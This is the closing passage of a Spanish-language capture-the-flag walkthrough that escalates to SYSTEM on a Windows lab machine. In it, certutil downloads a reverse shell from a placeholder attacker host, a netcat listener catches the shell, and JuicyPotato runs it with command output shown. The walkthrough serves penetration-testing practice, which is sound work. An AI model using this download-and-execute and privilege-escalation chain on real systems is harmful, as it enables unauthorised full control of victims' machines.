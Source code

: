 Mandemos esta **Reverse Shell** a la máquina víctima:
```batch
C:\Temp>certutil.exe -f -urlcache -split http://Tu_IP/shell.exe shell.exe
certutil.exe -f -urlcache -split http://Tu_IP/shell.exe shell.exe
****  En l�nea  ****
  000000  ...
  01204a
CertUtil: -URLCache comando completado correctamente.
```

Abre otra **netcat** con **rlwrap** usando el mismo puerto que usaste en la **Reverse Shell**:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
```

Ya con todo esto, ejecutemos **Juicy Potato**:
```batch
C:\Temp>JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Temp\shell.exe"
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Temp\shell.exe"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Y observa la **netcat**:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.180] 49205
Microsoft Windows [Versi�n 6.3.9600]
(c) 2013 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Excelente, ya somos el **Administrador**.

Ya solo tenemos que buscar la flag del admin:
```batch
C:\Users\Administrador\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 4410-AF3A

 Directorio de C:\Users\Administrador\Desktop

23/06/2024  11:32    <DIR>          .
23/06/2024  11:32    <DIR>          ..
23/06/2024  11:30                33 root.txt
               1 archivos             33 bytes
               2 dirs  39.756.767.232 bytes libres

C:\Users\Administrador\Desktop>type root.txt
type root.txt
...
```
Y con esto terminamos la máquina.
